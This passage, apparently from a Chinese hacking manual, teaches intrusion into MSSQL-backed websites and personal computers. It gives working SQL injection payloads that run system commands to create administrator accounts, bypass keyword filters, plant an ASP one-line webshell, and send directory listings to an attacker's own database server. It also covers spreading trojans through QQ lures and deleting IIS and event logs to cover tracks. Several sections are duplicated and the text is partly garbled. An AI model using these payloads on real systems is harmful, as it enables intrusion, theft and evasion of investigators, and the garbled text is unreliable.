执行成功了，不过提醒一点，用这个方法执行语句，要求服务器的`Shell.Application`是启用的。无法执行命令还有第二种可能，就是过滤了你提交的关键字符。就拿利用`XP_cmdshell`执行命令来说，如果过滤了`xp_cmdshell`这个关键字，你提交的语句`exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'`就有了缺失，自然不会被系统执行。这种情况可以尝试拆分关键字符的方法来绕过，例如这一句可以写成：

```sql
declare @a varchar(10) = 'xp_'; set @a=@a+'cmdshell'; exec master.dbo.[@a] 'net user nohack 52581314 /add'
```


## 第一章 数据库入侵相关技术

如果没有上传`xplog70.dll`的能力，可以换个思路，不要用`XP_cmdshell`执行系统命令，还有别的方法也能执行，比如利用`Wscript.shell`执行系统命令。前面所说过的建账号的两个命令，在加入管理员时可以写成如图6-8所示的语句。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell',@cmd output
exec sp_oamethod @cmd,'run',null,'net user hacker_ws 12345678 /add','0','true'
```


我们用系统命令 `net user` 查看，建立用户成功，如图69所示。


接着将该用户添加进管理员组，命令如图70所示。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd,'run',null,'net localgroup administrators hacker_ws /add','0','true'
```


使用系统命令 `net user` 同样能看到建立的账号，说明`cmdshell`执行命令和`wscript.shell`执行命令的效果是一样的，同样能达到执行命令的目的。

> 账号建立成功后登录不上是个常见问题，原因很复杂，所以检测自己是否成功的执行了系统命令，最好是在本地用 `NC` 监听一个端口，然后在注入点执行以下语句：

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd,'run',null,'telnet 你的IP 你的监听端口','0','true'
```

这个连接命令执行后，在注入网站的页面上可能会出现一段时间的假死，查询分析器里也是如此，如图 71 所示。


在我们自己主机监听的端口上查看是否能连接上，输入命令：`nc -vv -l -p 8000`，如图 72 所示，我是连接成功了。


如果不能连接说明没有执行命令，而且不光以建立管理员账号后，连接不上就以为是自己的命令没有执行成功来判断，实际中的情况是，你执行成功了也可能连接不上，这是新手常见的一个误区。

冷静的分析这个问题，无法执行命令有两种可能，第一是使用的存储过程被禁用了。一般介绍的 `SA` 权限注入点执行命令的方法，主要是两种存储过程，一种是通过 `XP_cmdshell`，用 `exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'` 语句执行命令；一种是通过 `wscript.shell` 存储过程，如图 73 所示。


```sql
DECLARE @shell INT EXEC SP_OACreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null, 'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在系统中成功建立了该账户，用 `net user` 命令可以查询到，如图 74 所示。


大部分技术文章里介绍的也都是这两种方法，其实利用存储过程执行系统命令还有第三种方法，一般文章中较少提到，利用语句如下：

```sql
DECLARE @shell INT;EXEC SP_OACreate 'Shell.Application';@shell.OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在url中使用时，在注入语句后要先加个；（分号），如图75所示。


图75

大家可以看到语句基本和`wscript.shell`是一样的，只是调用不同。在`EXEC SP_OACreate`中间，调用的存储过程从`wscript.shell`变成了`Shell.Application`。如果网站的安全人员对此不了解，只禁用了`xp_cmdshell`和`wscript.shell`，那么这里就能突破了。

我们看看这个语句在SQL查询分析器里执行的结果，如图76所示。


图76

命令执行成功了，我们再用系统命令看一下到底添加成功这个账号没有。`cmd`下执行`net user`，结果如图77所示。


图77

执行成功了，不过提醒一点，用这个方法执行语句，要求服务器的`Shell.Application`是启用的。无法执行命令还有第二种可能，就是过滤了你提交的关键字符。就拿利用`XP_cmdshell`执行命令来说，如果过滤了`xp_cmdshell`这个关键字，你提交的语句`exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'` 就有了缺失，自然不会被系统执行。这种情况可以尝试拆分关键字符的方法来绕过，例如这一句可以写成：

```sql
declare @a varchar(10) = 'xp_'; set @a=@a+'cmdshell'; exec master.dbo.[@a] 'net user nohack 52581314 /add'
```


## 第一章 数据库入侵相关技术

如果没有上传`xplog70.dll`的能力，可以换个思路，不要用`XP_cmdshell`执行系统命令，还有别的方法也能执行，比如利用`Wscript.shell`执行系统命令。前面所说过的建账号的两个命令，在加入管理员时可以写成如图 6-8 所示的语句。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell',@cmd output
exec sp_oamethod @cmd,'run',null,'net user hacker_ws 12345678 /add','0','true'
```


我们用系统命令`net user`查看，建立用户成功，如图 69 所示。


接着将该用户添加进管理员组，命令如图 70 所示。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd,'run',null,'net localgroup administrators hacker_ws /add','0','true'
```


使用系统命令`net user`同样能看到建立的账号，说明`cmdshell`执行命令和`wscript.shell`执行命令的效果是一样的，同样能达到执行命令的目的。

> 账号建立成功后登录不上是个常见问题，原因很复杂，所以检测自己是否成功执行了系统命令，最好是在本地用`NC`监听一个端口，然后在注入点执行以下语句：

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd,'run',null,'telnet 你的IP 你的监听端口','0','true'
```

这个连接命令执行后，在注入网站的页面上可能会出现一段时间的假死，查询分析器里也是如此，如图 71 所示。


在我们自己主机监听的端口上查看是否能连接上，输入命令：`nc -vv -l -p 8000`，如图 72 所示，我是连接成功了。


如果不能连接说明没有执行命令，而且不光以建立管理员账号后连接不上就以为自己的命令没有执行成功来判断，实际中的情况是，你执行成功了也可能连接不上，这是新手常见的一个误区。

冷静的分析这个问题，无法执行命令有两种可能，第一是使用的存储过程被禁用了。一般介绍的 SA 权限注入点执行命令的方法，主要是两种存储过程，一种是通过`XP_cmdshell`，用`exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'`语句执行命令；一种是通过`wscript.shell`存储过程，如图 73 所示。


```sql
DECLARE @shell INT EXEC SP_OACreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null, 'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在系统中成功建立了该账户，用`net user`命令可以查询到，如图 74 所示。


大部分技术文章里介绍的也都是这两种方法，其实利用存储过程执行系统命令还有第三种方法，一般文章中较少提到，利用语句如下：

```sql
DECLARE @shell INT;EXEC SP_OACreate 'Shell.Application';@shell.OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在 URL 中使用时，在注入语句后要先加个；（分号），如图 75 所示。


图 75

大家可以看到语句基本和`wscript.shell`是一样的，只是调用不同。在`EXEC SP_OACreate`中间，调用的存储过程从`wscript.shell`变成了`Shell.Application`。如果网站的安全人员对此不了解，只禁用了`xp_cmdshell`和`wscript.shell`，那么这里就能突破了。

第二步，把一句话木马插入到刚才建成的表中，使用`insert`语句具体如下：

```
http://www.nohack.com/list.asp?id=1225;insert into nohack(pc) values ('%3c%25execute request(%5e%22M%5e%22)%25%3e')
```

语句中的`%3c%25execute request(%5e%22M%5e%22)%25%3e`是`<%execute request("^m^")%>`把特殊字符进行了 URL 转换后的格式，不知大家注意到没有，这个用来转换的语句与我们平时用的一句话木马略有不同，在两个引号前面都加了`^`号（shift+数字6上那个符号）。这样写是因为如果不加的话，这个引号会和程序语句中本身包含的"号相闭合，使我们的语句不完整。

另外，`<>`、`%`、`^`号都要写成 URL 编码格式，URL 相应编码的转换可以用工具软件实现，如图 83 所示。


图 83

第三步，把表中的一句话木马导出为`.asp`后缀，使用存储过程`sp_makewtask`，完整语句为：`execute sp_makewtask @output='WEB路径',@query='select from表'`，如图 84 所示。



图 84

最后，访问 WEB 路径中的文件即可得到一句话木马。

## 如何通过注入备份得到一个 BSHELL

差异备份，就是把数据库两次备份之间的差异部分导出，相对于`sp_makewtask`存储过程简单很多，重要的是能在存储过程禁用的条件下得到`BSHELL`。


差异备份需要的条件也有：需要知道数据库名、`DB_OWNER`权限、能建表和WEB路径，这在普通的`DB_OWNER`权限下都能获得。完整的日志备份用到七条语句，我们分别了解下：

第一条语句：

```
http://www.xxx.com/list.asp?id=1334;alter database nohack set RECOVERY FULL
```

这条语句的功能是把SQL设置成完全恢复模式，根据情况换成目标网站的数据库名称我们可以使用以下语句得到：

```
http://www.xxx.com/list.asp?id=1334 and 0=(select db_name())
```

返回信息如下，其中的`nohack`就是数据库名称。

```
Microsoft OLE DB Provider for SQL Server 错误 '8004e07' 将nvarchar值 'nohack'转换为数据类型为int的列时发生错误。list.asp, 行290
```

第二条语句：

```
http://www.xxx.com/list.asp?id=1334;create table cmd (a image)
```

这条语句的功能是建立一个`cmd`表，包含一个名为`a`的字段，类型为`image`。

第三条语句：

```
http://www.xxx.com/list.asp?id=1334;backup log nohack to disk = 'c:\cmd' with init
```

（先备份一次，减少备份的大小）

第四条语句：

```
http://www.xxx.com/list.asp?id=1334;insert into cmd (a) values ('%3c%25execute request(%5e%22M%5e%22)%25%3e')
```

语句中的`%3c%25execute request(%5e%22M%5e%22)%25%3e`是`<%execute request("^m^")%>`把特殊字符进行了url转换后的格式，原理在前面章节中有叙述。

第五条语句：

```
http://www.xxx.com/list.asp?id=1334;backup log nohack to disk = 'd:\www\nohack.asp'
```

这条语句的功能是备份日志到WEB路径；`nohack`同样对应的数据库名。

第六条语句：

```
http://www.xxx.com/list.asp?id=1334;drop table cmd
```

这条语句的功能是删除新建的`cmd`表。

第七条语句：

```
http://www.xxx.com/list.asp?id=1334;alter database nohack set RECOVERY SIMPLE
```

这条语句的功能是把SQL设置成简单恢复模式。第六、第七条语句的主要功能是为了擦除痕迹，把数据库恢复到初始状态。

现在访问导出的shell地址，有出错提示，导出成功，如图85所示。


## 如何进行反馈注入？

在注入时我们常常遇到一种情况，那就是网站屏蔽回显，使得MSSQL注入的“查询”方法得不到我们想要的内容。因为查询数据就是利用页面上有回显来看查询的内容，如果网站屏蔽了出错回显，那自然什么也得不到。例如一个URL地址经`1=1`和`1=2`检测，前者返回正常页面，但`1=2`时本该出现的不正常页面却成了如图86所示的页面。


这就是典型的存在注入漏洞但是屏蔽回显，那么我们是不是遇到这种情况只能放弃呢？当然不是！如果网站是MSSQL数据库，还是可以继续尝试的。就是利用`openrowset`函数将回显的结果存放到远程我们自己机器中架设的MSSQL数据库上，然后在本地查看执行的回显。

使用的条件是需要`DB_OWNER`权限，你的本机上安装有MSSQL，并且处于外网。我们的目的是要拿个BSHELL，那么通常的方法就是用MSSQL的备份得到一个shell，这个过程如下：

- (1) 判断MSSQL是否同一台服务器上。

- (2) 如果的话，在目标服务器建表，把结果插到表里。

- (3) 在本机打开MSSQL，准备接收信息，`openrowset`函数。

- (4) 找到真实的目录后开始备份。在注入点执行语句：

```
http://www.xxx.com/list.asp?id=1334;insert into openrowset('sqlcmd','server=61.138.xxx.xxx;uid=sa;pwd=11111','select name from master.dbo.sys')
```

其中`61.138.xxx.xxx`是IP地址，`uid=sa`是用户名，`pwd=11111`是密码。如果开着防火墙，就会报警了：

```
http://www.xxx.com/list.asp?id=1334 and 0=(select db_name())
```

试图连接本机的1433端口：TCP连接被拒绝。现在关掉防火墙，让远程数据连接到主机上的1433端口。打开本机的MSSQL，用查询器连接，执行操作：

```
create database test
```

在其它章节有详细介绍：

```
use test
create table temp1(id varchar(255),num1 varchar(255),num2 varchar(255),num3 varchar(255))
```

这条命令是建立`temp1`表，准备查询，如图88所示。


图88

接下来要在目标注入处先把服务器的目录结构存入一个表。继续在注入点输入：

```
http://www.xxx.com/list.asp?id=1334;create table temp(id varchar(255),num1 varchar(255),num2 varchar(255),num3 varchar(255))
```

这是建立一个表，然后输入：

```
http://www.nohack.com/list.asp?id=1334;insert into temp(id,num1,num2);exec master.dbo.xp_dirtree 'c:\',1,1
```

这是将C盘目录下的文件和目录插入到表中。最后一步就是把这个表中的内容插入到我们的本地数据库建好的表里，输入语句如下：

```
http://www.nohack.com/list.asp?id=1334;insert into opatasource('sqlcmd','server=61.138.xxx.xxx;uid=sa;pwd=111111;database=test').test.dbo.temp1 select * from temp
```

最后在本地的查询器中输入`Select * from test.dbo.temp1`即可从这张表中看到网站的目录结构，如图89所示。


图89

发现其中名为`inetpub`的目录疑似WEB目录，我们进一步来查看这个目录下的子目录情况。先在注入点执行`Delete temp`，把`temp`表清空，以免上一次加载到表中的数据对我们形成干扰。同样的，在本机查询器里也要执行一次`Delete temp`，将`temp1`表清空，这样查看结果时更清晰，如图90所示。


本地和远程的表清空后，执行SQL语句装入数据，先在注入点执行语句：

```
http://www.xxx.com/list.asp?id=1334;insert into temp(id,num1,num2);exec master.dbo.xp_dirtree 'C:\Inetpub',1,1
```

与上一次在注入点执行的查询语句相比，这一次目录变了，上次查询的是C盘根目录`'c'`，这次查询的是`'C:\Inetpub'`。

接下来把`temp`表中的内容导出到我们本地主机上建立的数据库，使用语句：

```
http://www.xxx.com/list.asp?id=1334;insert into opendatasource('sqlcmd','server=61.138.xxx.xxx;uid=sa;pwd=111111;database=test').test.dbo.temp1 select temp from temp
```

再到本地查询器里用`Select * from temp1`命令查看传过来的结果，如图91所示。


`root`是WEB目录常用的名称，很可能就是它了，不过我们需要验证一下。通常方法是找一个常见的文件，看网页上是否存在，如果存在，就基本确定是该目录。继续上面的过程，先清除注入点和本地查询器的表内容，将查询语句入注入点的表，使用语句：

```
http://www.xxx.com/list.asp?id=1334;insert into temp(id,num1,num2) exec master.dbo.xp_dirtree 'C:\Inetpub\root',1,1
```

注意：这次查询的目录变成了`'C:\Inetpub\root'`。然后使用语句：

```
http://www.xxx.com/list.asp?id=1334;insert into opendatasource('sqlcmd','server=61.138.xxx.xxx;uid=sa;pwd=111111;database=test').test.dbo.temp1 select * from temp
```

到本地数据库后`Select * from temp`查看内容，如图92所示。分析一下列出的文件，`shell.txt`这个文件名特殊的，一般没有，访问一下网页，看看有没有文件，如图93所示。这个文件的确存在，证实了我们的判断，`C:\Inetpub\root`目录很大就是WEB目录，下一步就可以按照章节介绍的备份方法往这个目录写马了。假如WEB目录不在`C:\Inetpub\root`，就重复整个过程，分别查询C、D等硬盘的目录，找出WEB绝对路径，就可以备份了。

## 如何知道MSSQL服务器的相关信息？

在得到MSSQL数据库后不要目的开始，首先要搞清楚一些信息，比如自己的身份，这关系到拥有的权限。如果是`SA`权限，直接执行系统命令就可以了；`DB_OWNER`权限再去查表、备份shell的方法。


首先得到数据库服务器的版本，在浏览器输入：

```
http://www.xxx.com/list.asp?id=131 and (select @@version)>0
```

有一些版本比较低的MSSQL数据库可能有漏洞。接着是判断身份，可以输入以下语句：

```
http://www.xxx.com/list.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('sysadmin'));--
http://www.xxx.com/list.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('serveradmin'));--
http://www.xxx.com/list.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('setupadmin'));--
http://www.xxx.com/list.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('securityadmin'));--
http://www.xxx.com/list.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('diskadmin'));--
http://www.xxx.com/list.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('bulkadmin'));--
http://www.xxx.com/list.asp?id=131 and 1=(SELECT IS_MEMBER('DB_OWNER'));--
```

以上几条就是用户权限判断语句，哪一条的返回结果为正确页面，说明权限符合。最常见的是`sysadmin`和`DB_OWNER`这两种，如图94所示。


图94中，在输入`and 1=(SELECT IS_MEMBER('DB_OWNER'))`时返回正确。

另外，利用语句：

```
http://www.xxx.com/list.asp?id=131 and db_name()>0
```

获得当前操作权限的数据库名，返回如下，说明数据库为`girlmeifu`。

```
Microsoft OLE DB Provider for
ODBC Drivers 错误 '8004e07' [Microsoft][ODBC SQL Server Driver][SQL Server]将varchar值 'girlmeifu'转换为数据类型为int的列时发生语法错误。
```

在浏览器输入语句：

```
http://www.xxx.com/list.asp?id=131 and user>0
```

获得当前操作的用户名，返回结果如下，说明当前数据库的用户名是`gmbl`。

```
Microsoft OLE DB Provider for
ODBC Drivers 错误 '8004e07' [Microsoft][ODBC SQL Server Driver][SQL Server]将varchar值'gmbl'转换为数据类型为int的列时发生语法错误。
```

在SQL注入备份shell的过程中，获取WEB路径是至关重要的。对于WEB路径的获取，除了用`DIRTREE`将硬盘导入一个表，再逐个暴目录和文件外，还可以尝试直接从注册表读取WEB路径。

## 第一章 数据库入侵相关技术

`list.asp?id=1334`后面检测注入点，并提交SQL注入语句。这是常见的注入点出现的位置，程序员在书写网站程序时对这里的安全工作也做得比较多。实际上注入点不光会在明显的URL调用数据库参数的位置出现，从理论上来说，凡是有查询数据库的地方都有可能出现注入。

在网站中常见的搜索功能也是用到了查询数据库的，而这一处的防护往往被一部分程序员所忽视了，如图95所示。


搜索的过程是把你所提交的搜索关键字，作为一个参数放进`like`参数中，然后提交到数据库查询是否存在相关字的内容。在网站程序中使用的查询语句是`select * from news where title like '%hack%'`，这句SQL语句的含义是：从`news`表中查询出字段`title`内容中包含有`hack`关键字的内容。

这个语句是封装在网站程序里的，两个单引号中的关键字参数由我们在网站搜索页面提交的数据获得，我们可以进行注入的地方也正是这里。

搜索型注入利用起来有一点小麻烦，就是书写栏的字符长度往往写不下我们的注入语句，所以要将搜索页面改为本地提交，修改其允许的最大字符长度。

关于修改页面为本地提交的详细操作将在第三章《黑客入侵常用技巧》的第18小节“什么是本地提交？”介绍，这里就不赘述了，下面看看直接在本地建立的搜索页中提交的语句，如图96所示。



图96中就是构建好的本地提交页面，红叉的位置是搜索提交按钮，在网站上是图片，改到本地后找不到图片的路径自然就无法正常显示，这并不影响我们的使用。

我们看到，提交检测的语句是`1%' and 1=1 and '%'='`，第一个字符是数字1，这是随便输入的，作用是提交一个供搜索的字符，以免程序提示你没有输入搜索关键字；后面的`%'`是为了闭合程序代码中`LIKE`后面的第一个`'%`；后面的`%'='`是为了闭合程序中第二个`%%`。最后提交到服务器中的SQL语句是`select * from news where title like'%1%'and 1=1 and '%'='%'`。

本地提交后页面返回正常，如图97所示。


资深黑客渗透内幕答疑

大家可以看到，同样是用`1=1`来判断正常或不正常页面，后面的`%'='%'`只是起闭合作用的“小尾巴”，我们照写就是了，注入的语句书写在`and 1=1`的位置。

例如：同样在本地提交页面中提交`1=2`，看看是否返回不正常页面，语句为：`1%' and 1=2 and '%'='%'`。如果存在注入漏洞，返回的就是与`1=1`不同的页面。注入时把语句写在`and 1=1`的位置，例如查表语句：`1%' and select count(*) '%'='%'`。


## 第二章 常见问题解答集锦

- 什么是木马，与病毒有什么不同？

- 木马，也叫木马，远程控制木马，后门木马有什么区别？

- 感染木马的计算机会有哪些表现？

- 如何开始学习黑客技术？

- 黑客有哪些必须掌握的基础知识？

- 什么是IP地址？

- 什么是域名？

- 常见的服务与端口对应的有哪些？

- 有没有免费的网络黑客工具？

- 在搜索引擎中搜到的常用黑客工具，请问什么是网络监听？

- 能简单介绍几款常用的安全工具吗？

- ADSL路由器的桥接模式和路由模式是怎么回事，有什么区别？

- 什么是DMZ主机？

- 什么是代理服务器？

- 什么是VPN？


- 什么是 Cookie？
- 什么是 SQL 注入？
- 什么是旁注？
- 什么是嗅探？
- 什么是 rootkit？
- 什么是 `CMD`？
- 什么是 shell？
- 什么是 webshell？
- 什么是 `CMD`？
- 什么叫做 `CMD`？
- 我在网吧，电脑全部还原，密码保护，网速慢，请问是什么原因？如何解决？
- 为什么有的网页后台程序是 `php`，有的是 `asp`，有的是 `aspx`，它们有什么不同？
- 什么是 Cookies 欺骗？
- 什么是跨站脚本攻击？
- 什么是 ARP 欺骗？
- 什么是 DDoS 攻击？
- 什么是 0day？
- 什么是 exploit？
- 什么是提权？
- 什么是网络钓鱼？
- 如何防止网络钓鱼？
- 键盘记录工具和盗号木马的使用与防范有何不同？
- 什么是网页木马？如何防范？
- 什么是 U 盘病毒？如何防范？
- 什么是局域网攻击？如何防范？
- 什么是 DDoS 攻击？如何防范？

## 第二章 常见问题答疑解惑

1. 鸽子中提到的使用 WEB 空间，请问什么是空间？需要收费吗？怎样才能拥有和使用空间？
2. 我在内网中，电脑会被……
3. 有什么方法能在只知道一个电脑 IP 的情况下，对它进行入侵呢？
4. 黑客文章里常说的“抓肉鸡”、“清除痕迹”是怎么回事？
5. 听说黑客有手段能刷 QB 和钻石服务器点卡之类的，这是真的吗？如何实现的？
6. 什么是 WEBSHELL？它是做什么的？
7. 要如何开始学习黑客技术呢？
8. 什么是 `CMD`？如何使用它？
9. 什么是 DDoS 攻击？
10. 什么是域名？
11. 黑客活动违法吗？我该怎样进行黑客技术的实践呢？
12. 什么是脚本？
13. 经常提到的“权限”是什么？
14. 为什么有的网站程序文件是 `PHP` 后缀，有的是 `ASP` 后缀，有的是 `ASPX` 后缀，它们有什么不同？
15. 什么是建马？
16. ADSL 路由器中的桥接模式和路由模式是怎么回事，有什么区别？
17. WEB 木马、网页木马、远程控制木马、后门木马有什么区别？
18. 什么是 ARP 欺骗？
19. 常见的服务与端口对应的有哪些？
20. 键盘记录工具和盗号木马的使用与防范有何不同？
21. 有没有办法快速安装 MySQL、Apache？
22. 入侵中最常用的命令有哪些？
23. 为什么要使用 WEB 空间，如何获得？
24. 可以免费获得吗？必须先拥有和使用吗？
25. 什么是网页木马？如何防范？
26. 什么是 U 盘病毒？如何防范？
27. 什么是局域网攻击？如何防范？
28. 什么是 DDoS 攻击？如何防范？

我们对主机的入侵目的就能顺利进行了，在本机上还有很多难关在等着我们。比如常见的一种入侵手法 `IPC$` 连接，就会因为系统本身将所有的外来用户一概只分配为 `GUEST` 权限或根本不启用 `IPC$`，从而造成限制，使您前面的入侵几乎徒劳无功，如图19所示。

```cmd
C:\>net use \\219.231.182.3\IPC$ "" /user:""
发生系统错误 67。
找不到网络名。
```

图19

你想要进行入侵的那个端口，可能会因为系统已经关闭或停止了相关服务而无法使用，如图20所示。

```cmd
D:\>telnet 211.13.55.7 23
正在连接到211.13.55.7...不能打开到主机的连接，在端口 23: 连接失败
D:\>_
```

图20

进行入侵后，上传工具也要面对防火墙和杀毒软件及组策略的限制。对于只知道 IP 进行入侵，可以采用的思路如下：

首先判断这个 IP 主机的性质是服务器还是个人电脑，如果是服务器，就利用相关漏洞进行尝试。比如是 WEB 服务器，安装有 IIS，就尝试 SQL 注入；如果是数据库服务器，就尝试默认口令或弱口令；主机装有 FTP 就试试连接上去后看看用户有没有执行权限（一般情况下是肯定不会有，但是作为思路必须一试）；如果是邮件服务器就看看有没有可能进行邮件木马的传播。

有时候，直接访问 IP 也会给我们惊喜，如图21所示。


图21

由于这台主机没有配置好相应的权限，使得我们能浏览 WEB 目录，其中引人注意的是 `passwd` 这个目录，明显告诉我们这里存放有密码相关的信息，进去看看能发现些什么，如图22所示。


图22

竟然发现了数据库！点击它从 IE 开始下载，如图23所示。


下载到本地后打开，查看密码，登录后台想办法拿权限吧！这对于我们可真是个意外的惊喜。

如果我们所获取的 IP 是一台个人电脑，入侵的难度有两方面：

- 一方面可以说是比服务器的入侵更难，因为个人电脑上往往打开的相关服务很少，像 IIS、MAIL、FTP 服务等一般都没有。服务安装越少，出问题的环节也就越少，可以攻击的“点”更少；
- 另一方面又可以说比服务器更容易入侵，这是因为使用个人电脑的往往是个人，而并非像服务器那样通常是由对电脑和网络知识比较了解的人配置和操作，安全知识的淡薄，使得机器的防护并不严密。

如果说你几乎不可能遇到一台没有安装防火墙和杀毒软件的服务器的话，相对的你有很大可能遇到一台没有安装任何防火墙和杀毒软件的个人计算机！如图24所示，这是通过远程控制木马抓取到的某肉鸡的桌面截图，请注意右下角，没有任何杀毒软件运行，如果有的话，很可能就会杀掉木马不至于被人控制了。


有的个人用户虽安装有杀毒软件，但没有及时的进行系统补丁的更新，使得一些陈旧的漏洞仍然存在可以被利用的隐患。这样我们的入侵难度大大降低，在有严重的系统漏洞存在的前提下，只需下载一个工具 `MSF` 就能轻松溢出获得 `CMDSHELL`，如图25所示，该工具的详细使用将在第六章介绍。

个人电脑的入侵，不像服务器那样是针对入侵一台已经配置好的、冷冰冰的机器。个人电脑是一个由有思想、有意识、有性格，当然也有缺点的人在操作的计算机。对于个人计算机的入侵，不仅是人与机器的较量，更是人与人的较量，所谓的“社会工程学”将在这里发挥其巨大的作用，诱骗对方点击挂好木马的网页即可轻松的完成对个人电脑的攻击。

当 IP 为个人主机时，伴随而来的是许多衍生攻击。往往得到 IP 的途径是通过 QQ 显示 IP，那么此刻应该想到利用 QQ 传播木马来获得权限，如常见的 QQ 消息就是一种对个人主机的入侵手段。例如发送一些诱惑的 QQ 消息来让对方点击我们挂马的网站，如图26所示。

可以将木马与一个小游戏、FLASH 或者 RM 文件进行捆绑，诱骗对方点击运行木马（FLASH 和 RM 格式的文件不像 EXE 那么敏感，通常不会被怀疑，对方运行的概率高），这些都是针对“人”的办法。

```bash
>> cd Exploits
[-] The specified path does not exist
>> show Exploits
>> use Exploits
[-] Unknown command: use.
>> use Exploits
[-] Failed to load module: Exploits
>> use admin/backupexec/dump
msf auxiliary(dump)
```


图25


图26

即便存在以上所述种种入侵的渠道和可能性，我仍要强调，对于只知道 IP 进行攻击还是很难的。目前做到这一点，只有系统级的漏洞。如果微软或者其它常用的软件（腾讯 QQ、魔兽世界游戏等）曾有过漏洞，那么利用其漏洞，入侵真的简单，只要输入一个 IP 地址和几个参数就能得到对方主机的权限。

- （1）系统级别的漏洞的出现时间是不确定的，有时出一个，有时出另一个。我们要攻击一台主机时，不能假设我们正处于一个系统漏洞的高发期。系统漏洞总会出现，问题在于它什么时候出现，这些都不确定。
- （2）即便是出现了巨大的系统漏洞，我们能否获得其利用工具或代码呢？巨大的漏洞刚出现时，只是流传在少数高手手中，不会外传。即便到了开始传播阶段，这时漏洞的影响仍属数字级。这时作为一个普通安全爱好者，能获得它吗？答案是肯定的，这种漏洞利用方法，在黑客市场上可能以千万的价格交流。等到第三个阶段，这种利用工具可能已经随处可见，甚至能从黑客网站直接下载到，那么此时你发现，也许这个漏洞已经失效了。

由于补丁早已发布，结合我前面提到的针对未升级补丁的个人计算机，还有一定的价值。最后总结一句话，入侵一台只知道 IP 主机的最好办法。遗憾的是，对于普通人来说，机会几乎为零。以上就是对这种 IP 入侵问题的全面分析。


日志文件通常有应用程序日志、安全日志、系统日志、DNS 日志、FTP 日志、IIS 日志等等，可能会根据服务器的不同，开启的服务也不同。下面是常见日志的默认位置（注意日志位置是可以更改的）：

```text
安全日志文件：%systemroot%\system32\config\SecEvent.EVT
系统日志文件：%systemroot%\system32\config\SysEvent.EVT
应用程序日志文件：%systemroot%\system32\config\AppEvent.EVT
```

这三个日志在同一目录下，如图27所示。


这三个日志可以在“开始”－“管理工具”－“事件查看器”中看到日志的内容，如图28所示。


左边选框是查看日志的类型，而右边是日志记录表，标明了记录的时间和一些简单的信息，如图29所示。


如果要查看详细信息，在右边的表中双击选择的日志条目，会弹出详细的日志报告，如图30所示。

有些细心的管理员会修改系统日志、FTP 日志、应用程序日志的保存地址以防止这些日志被删除，因为一般的删除日志工具只会删除默认文件名的日志，如果被修改就失去作用了，可以看出工具的局限性。


我们可以在注册表 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Eventlog` 键下看到这几个日志被修改的保存地址和文件名，如图31所示。


从图32中可以看到，该服务器的日志保存文件的数值 `%SystemRoot%\system32\config\AppEvent.evt` 被修改为了 `%SystemRoot%\system32\config\AppEvent_nohack.Evt`。


IIS 日志的默认位置是 `%systemroot%\system32\logfiles\w3svc`（以文件形式保存，如图33所示）。

FTP 日志是 `%systemroot%\system32\logfiles\ftsvc`（以文件形式保存）。


打开文件可以看到记录的是用户访问页面的请求，其中包括访问的文件、攻击者 IP 地址等有助于查找入侵痕迹的重要数据。


删除日志的方法：如果是远程桌面，删除比较简单，进入相应的目录，删除相应的文件即可。大部分情况是在命令行下，即 `CMD` 命令行中，通常要删除的日志需要管理员权限：

（1）清除 IIS 日志：先使用 `net stop isadmin /y` 命令关掉 IIS 服务，如果不关闭服务，则无法删除日志，如图35所示。


然后执行 `DEL %systemroot%\system32\logfiles\w3svc\*` 命令删除 `w3svc` 目录下的日志。需要提醒的是，这个目录有可能被改成别的名字，如图36所示。删除完成后记得将 IIS 恢复，使用命令 `net start w3svc`，如图37所示。

```cmd
C:\Documents and Settings\Administrator>net start w3svc
